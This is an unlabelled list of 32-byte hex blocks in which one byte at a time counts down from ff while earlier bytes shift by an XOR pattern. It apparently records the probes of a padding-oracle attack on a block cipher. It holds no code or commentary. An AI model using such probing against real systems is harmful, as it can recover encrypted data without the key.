00000000dd8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000dc8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000db8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000da8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d98929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d88929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d78929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d68929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d58929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d48929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d38929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d28929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d18929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000d08929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000cf8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ce8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000cd8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000cc8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000cb8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ca8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c98929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c88929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c78929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c68929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c58929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c48929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c38929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c28929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c18929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000c08929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000bf8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000be8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000bd8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000bc8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000bb8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ba8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b98929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b88929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b78929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b68929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b58929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b48929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b38929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b28929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b18929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000b08929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000af8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ae8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ad8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ac8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ab8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000aa8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a98929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a88929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a78929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a68929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a58929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a48929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a38929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a28929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a18929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000a08929e4cd1d8a989d03f71c00000000000000000000000000000000
000000009f8929e4cd1d8a989d03f71c00000000000000000000000000000000
000000009e8929e4cd1d8a989d03f71c00000000000000000000000000000000
000000009d8929e4cd1d8a989d03f71c00000000000000000000000000000000
000000009c8929e4cd1d8a989d03f71c00000000000000000000000000000000
000000009b8929e4cd1d8a989d03f71c00000000000000000000000000000000
000000ff9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000fe9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000fd9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000fc9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000fb9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000fa9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f99a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f89a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f79a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f69a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f59a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f49a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f39a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f29a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f19a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000f09a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ef9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ee9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ed9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ec9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000eb9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ea9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e99a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e89a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e79a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e69a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e59a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e49a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e39a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e29a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e19a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000e09a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000df9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000de9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000dd9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000dc9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000db9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000da9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d99a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d89a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d79a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d69a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d59a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d49a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d39a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d29a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d19a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000d09a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000cf9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ce9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000cd9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000cc9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000cb9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ca9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c99a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c89a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c79a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c69a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c59a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c49a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c39a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c29a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c19a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000c09a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000bf9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000be9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000bd9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000bc9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000bb9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ba9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b99a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b89a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b79a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b69a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b59a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b49a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b39a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b29a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b19a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000b09a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000af9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ae9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ad9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ac9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000ab9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000aa9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a99a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a89a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a79a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a69a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a59a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a49a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a39a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a29a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a19a8828e5cc1c8b999c02f61d00000000000000000000000000000000
000000a09a8828e5cc1c8b999c02f61d00000000000000000000000000000000
0000009f9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
0000009e9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
0000009d9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
0000009c9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
0000009b9a8828e5cc1c8b999c02f61d00000000000000000000000000000000
0000ff98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000fe98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000fd98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000fc98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000fb98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000fa98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f998998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f898998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f798998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f698998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f598998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f498998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f398998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f298998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f198998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000f098998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000ef98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000ee98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000ed98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000ec98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000eb98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000ea98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e998998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e898998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e798998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e698998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e598998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e498998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e398998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e298998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e198998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000e098998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000df98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000de98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000dd98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000dc98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000db98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000da98998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000d998998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000d898998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000d798998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000d698998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000d598998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000d498998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000d398998b2be6cf1f889a9f01f51e00000000000000000000000000000000
0000d298998b2be6cf1f889a9f01f51e00000000000000000000000000000000
00ffd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00fed399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00fdd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00fcd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00fbd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00fad399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f9d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f8d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f7d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f6d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f5d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f4d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f3d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f2d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f1d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00f0d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00efd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00eed399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00edd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00ecd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00ebd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00ead399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e9d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e8d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e7d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e6d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e5d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e4d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e3d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e2d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e1d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00e0d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00dfd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00ded399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00ddd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00dcd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00dbd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00dad399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d9d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d8d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d7d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d6d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d5d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d4d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d3d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d2d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d1d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00d0d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00cfd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00ced399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00cdd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00ccd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00cbd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00cad399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c9d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c8d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c7d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c6d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c5d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c4d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c3d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c2d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c1d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00c0d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00bfd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00bed399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00bdd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00bcd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00bbd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00bad399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b9d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b8d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b7d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b6d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b5d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b4d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b3d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b2d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b1d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00b0d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00afd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00aed399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00add399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00acd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00abd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00aad399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a9d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a8d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a7d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a6d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a5d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a4d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a3d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a2d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a1d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
00a0d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
009fd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
009ed399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
009dd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
009cd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
009bd399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
009ad399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
0099d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
0098d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
0097d399988a2ae7ce1e899b9e00f41f00000000000000000000000000000000
ff88cc86879535f8d1019684811feb0000000000000000000000000000000000
fe88cc86879535f8d1019684811feb0000000000000000000000000000000000
fd88cc86879535f8d1019684811feb0000000000000000000000000000000000
fc88cc86879535f8d1019684811feb0000000000000000000000000000000000
fb88cc86879535f8d1019684811feb0000000000000000000000000000000000
fa88cc86879535f8d1019684811feb0000000000000000000000000000000000
f988cc86879535f8d1019684811feb0000000000000000000000000000000000
f888cc86879535f8d1019684811feb0000000000000000000000000000000000
f788cc86879535f8d1019684811feb0000000000000000000000000000000000
f688cc86879535f8d1019684811feb0000000000000000000000000000000000
f588cc86879535f8d1019684811feb0000000000000000000000000000000000
f488cc86879535f8d1019684811feb0000000000000000000000000000000000
f388cc86879535f8d1019684811feb0000000000000000000000000000000000
f288cc86879535f8d1019684811feb0000000000000000000000000000000000
f188cc86879535f8d1019684811feb0000000000000000000000000000000000
f088cc86879535f8d1019684811feb0000000000000000000000000000000000
ef88cc86879535f8d1019684811feb0000000000000000000000000000000000
ee88cc86879535f8d1019684811feb0000000000000000000000000000000000
ed88cc86879535f8d1019684811feb0000000000000000000000000000000000
ec88cc86879535f8d1019684811feb0000000000000000000000000000000000
eb88cc86879535f8d1019684811feb0000000000000000000000000000000000
ea88cc86879535f8d1019684811feb0000000000000000000000000000000000
e988cc86879535f8d1019684811feb0000000000000000000000000000000000
e888cc86879535f8d1019684811feb0000000000000000000000000000000000
e788cc86879535f8d1019684811feb0000000000000000000000000000000000
e688cc86879535f8d1019684811feb0000000000000000000000000000000000
e588cc86879535f8d1019684811feb0000000000000000000000000000000000
e488cc86879535f8d1019684811feb0000000000000000000000000000000000
e388cc86879535f8d1019684811feb0000000000000000000000000000000000
e288cc86879535f8d1019684811feb0000000000000000000000000000000000
e188cc86879535f8d1019684811feb0000000000000000000000000000000000
e088cc86879535f8d1019684811feb0000000000000000000000000000000000
df88cc86879535f8d1019684811feb0000000000000000000000000000000000
de88cc86879535f8d1019684811feb0000000000000000000000000000000000
dd88cc86879535f8d1019684811feb0000000000000000000000000000000000
dc88cc86879535f8d1019684811feb0000000000000000000000000000000000
db88cc86879535f8d1019684811feb0000000000000000000000000000000000
da88cc86879535f8d1019684811feb0000000000000000000000000000000000
d988cc86879535f8d1019684811feb0000000000000000000000000000000000
d888cc86879535f8d1019684811feb0000000000000000000000000000000000
d788cc86879535f8d1019684811feb0000000000000000000000000000000000
d688cc86879535f8d1019684811feb0000000000000000000000000000000000
d588cc86879535f8d1019684811feb0000000000000000000000000000000000
d488cc86879535f8d1019684811feb0000000000000000000000000000000000
d388cc86879535f8d1019684811feb0000000000000000000000000000000000
d288cc86879535f8d1019684811feb0000000000000000000000000000000000
d188cc86879535f8d1019684811feb0000000000000000000000000000000000
d088cc86879535f8d1019684811feb0000000000000000000000000000000000
cf88cc86879535f8d1019684811feb0000000000000000000000000000000000
ce88cc86879535f8d1019684811feb0000000000000000000000000000000000
cd88cc86879535f8d1019684811feb0000000000000000000000000000000000
cc88cc86879535f8d1019684811feb0000000000000000000000000000000000
cb88cc86879535f8d1019684811feb0000000000000000000000000000000000
ca88cc86879535f8d1019684811feb0000000000000000000000000000000000
c988cc86879535f8d1019684811feb0000000000000000000000000000000000
c888cc86879535f8d1019684811feb0000000000000000000000000000000000
c788cc86879535f8d1019684811feb0000000000000000000000000000000000
c688cc86879535f8d1019684811feb0000000000000000000000000000000000
c588cc86879535f8d1019684811feb0000000000000000000000000000000000
c488cc86879535f8d1019684811feb0000000000000000000000000000000000
c388cc86879535f8d1019684811feb0000000000000000000000000000000000
c288cc86879535f8d1019684811feb0000000000000000000000000000000000
c188cc86879535f8d1019684811feb0000000000000000000000000000000000
c088cc86879535f8d1019684811feb0000000000000000000000000000000000
bf88cc86879535f8d1019684811feb0000000000000000000000000000000000
be88cc86879535f8d1019684811feb0000000000000000000000000000000000
bd88cc86879535f8d1019684811feb0000000000000000000000000000000000
bc88cc86879535f8d1019684811feb0000000000000000000000000000000000
bb88cc86879535f8d1019684811feb0000000000000000000000000000000000
ba88cc86879535f8d1019684811feb0000000000000000000000000000000000
b988cc86879535f8d1019684811feb0000000000000000000000000000000000
b888cc86879535f8d1019684811feb0000000000000000000000000000000000
b788cc86879535f8d1019684811feb0000000000000000000000000000000000
b688cc86879535f8d1019684811feb0000000000000000000000000000000000
b588cc86879535f8d1019684811feb0000000000000000000000000000000000
b488cc86879535f8d1019684811feb0000000000000000000000000000000000
b388cc86879535f8d1019684811feb0000000000000000000000000000000000
b288cc86879535f8d1019684811feb0000000000000000000000000000000000
b188cc86879535f8d1019684811feb0000000000000000000000000000000000
b088cc86879535f8d1019684811feb0000000000000000000000000000000000
af88cc86879535f8d1019684811feb0000000000000000000000000000000000
ae88cc86879535f8d1019684811feb0000000000000000000000000000000000
ad88cc86879535f8d1019684811feb0000000000000000000000000000000000
ac88cc86879535f8d1019684811feb0000000000000000000000000000000000
ab88cc86879535f8d1019684811feb0000000000000000000000000000000000
aa88cc86879535f8d1019684811feb0000000000000000000000000000000000
a988cc86879535f8d1019684811feb0000000000000000000000000000000000
a888cc86879535f8d1019684811feb0000000000000000000000000000000000
a788cc86879535f8d1019684811feb0000000000000000000000000000000000
a688cc86879535f8d1019684811feb0000000000000000000000000000000000
a588cc86879535f8d1019684811feb0000000000000000000000000000000000
a488cc86879535f8d1019684811feb0000000000000000000000000000000000
a388cc86879535f8d1019684811feb0000000000000000000000000000000000
a288cc86879535f8d1019684811feb0000000000000000000000000000000000
a188cc86879535f8d1019684811feb0000000000000000000000000000000000
a088cc86879535f8d1019684811feb0000000000000000000000000000000000
9f88cc86879535f8d1019684811feb0000000000000000000000000000000000
9e88cc86879535f8d1019684811feb0000000000000000000000000000000000
9d88cc86879535f8d1019684811feb0000000000000000000000000000000000
9c88cc86879535f8d1019684811feb0000000000000000000000000000000000
9b88cc86879535f8d1019684811feb0000000000000000000000000000000000
9a88cc86879535f8d1019684811feb0000000000000000000000000000000000
9988cc86879535f8d1019684811feb0000000000000000000000000000000000
9888cc86879535f8d1019684811feb0000000000000000000000000000000000
9788cc86879535f8d1019684811feb0000000000000000000000000000000000
9688cc86879535f8d1019684811feb0000000000000000000000000000000000
9588cc86879535f8d1019684811feb0000000000000000000000000000000000
9488cc86879535f8d1019684811feb0000000000000000000000000000000000
9388cc86879535f8d1019684811feb0000000000000000000000000000000000
9288cc86879535f8d1019684811feb0000000000000000000000000000000000
9188cc86879535f8d1019684811feb0000000000000000000000000000000000
9088cc86879535f8d1019684811feb0000000000000000000000000000000000
8f88cc86879535f8d1019684811feb0000000000000000000000000000000000
8e88cc86879535f8d1019684811feb0000000000000000000000000000000000
8d88cc86879535f8d1019684811feb0000000000000000000000000000000000
8c88cc86879535f8d1019684811feb0000000000000000000000000000000000
8b88cc86879535f8d1019684811feb0000000000000000000000000000000000
8a88cc86879535f8d1019684811feb0000000000000000000000000000000000
8988cc86879535f8d1019684811feb0000000000000000000000000000000000
8888cc86879535f8d1019684811feb0000000000000000000000000000000000
8788cc86879535f8d1019684811feb0000000000000000000000000000000000
8688cc86879535f8d1019684811feb0000000000000000000000000000000000
8588cc86879535f8d1019684811feb0000000000000000000000000000000000
8488cc86879535f8d1019684811feb0000000000000000000000000000000000
8388cc86879535f8d1019684811feb0000000000000000000000000000000000
8288cc86879535f8d1019684811feb0000000000000000000000000000000000
8188cc86879535f8d1019684811feb0000000000000000000000000000000000
8088cc86879535f8d1019684811feb0000000000000000000000000000000000
7f88cc86879535f8d1019684811feb0000000000000000000000000000000000
7e88cc86879535f8d1019684811feb0000000000000000000000000000000000
7d88cc86879535f8d1019684811feb0000000000000000000000000000000000
7c88cc86879535f8d1019684811feb0000000000000000000000000000000000
7b88cc86879535f8d1019684811feb0000000000000000000000000000000000
7a88cc86879535f8d1019684811feb0000000000000000000000000000000000
7988cc86879535f8d1019684811feb0000000000000000000000000000000000
7888cc86879535f8d1019684811feb0000000000000000000000000000000000
7788cc86879535f8d1019684811feb0000000000000000000000000000000000
7688cc86879535f8d1019684811feb0000000000000000000000000000000000
7588cc86879535f8d1019684811feb0000000000000000000000000000000000
7488cc86879535f8d1019684811feb0000000000000000000000000000000000
7388cc86879535f8d1019684811feb0000000000000000000000000000000000
7288cc86879535f8d1019684811feb0000000000000000000000000000000000
7188cc86879535f8d1019684811feb0000000000000000000000000000000000
7088cc86879535f8d1019684811feb0000000000000000000000000000000000
6f88cc86879535f8d1019684811feb0000000000000000000000000000000000
6e88cc86879535f8d1019684811feb0000000000000000000000000000000000
